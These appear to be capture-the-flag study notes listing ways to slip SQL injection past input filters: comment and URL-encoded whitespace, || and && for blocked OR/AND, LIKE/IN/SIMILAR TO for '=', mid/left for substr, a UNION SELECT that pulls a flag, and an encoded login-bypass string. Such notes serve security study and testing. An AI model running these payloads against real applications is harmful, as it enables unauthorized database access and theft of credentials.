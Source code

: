 ### No spaces

If the application does not allow spaces, we can bypass this via `/**/`. For example, `'/**/or/**/1=1` is equivalent to `' or 1=1`

You can also achieve this via special url-encoded whitespaces like `%09 %0a %0b %0c %0d %a0`

### OR/AND blacklisted

Most databases support `|` or `||` as the OR bitwise operator and `&` or `&&` as the AND bitwise operator

In addition, `-` can work like a NOT operator in a condition, and `=` is also "overloaded" to be the AND operator (1=1 = true).

### = blacklisted

You can use LIKE, IN or NOT IN instead

- LIKE
	- WHERE pw LIKE '' (can use % wildcard as a replacement for substring)
- IN / NOT IN
	- WHERE substring(pw, 1, 1) IN ('a')
- SIMILAR TO (pgsql)
	- Regex works: 'abc' SIMILAR TO 'a__'
	- Flag Format: no number can follow a open curly brace, must use hex, eg abCTF{5h1s_is_flag} must use \x35
 	- This could be also used to bypass substr blacklist

### SUBSTR blacklisted

**Alternatives to substr()**

* mid("abc", 1, 1) == "a"
* left("abc", 1) == "a"

### -- /**/ # blacklisted

In sqlite, queries such as the below seem to work, it ignores the weird empty string, so if it works it works...

```sql
select * from users where guests = '' UNION 
SELECT 1, flag, 1,1,1,1 from flag'' LIMIT 25;
```

`user=ad%27%7C%7C%27min&pass=a%27+is+not+%27b`

`is not`

Another solution is to escape the closing apostrophe with a `\` so that the password clause becomes part of a string.

---

## Stuff to take note of

* Certain databases seem to reject the use of ; in a statement. In most cases, the semicolon isn't important, so we should always attempt SQLi without the semicolon first.
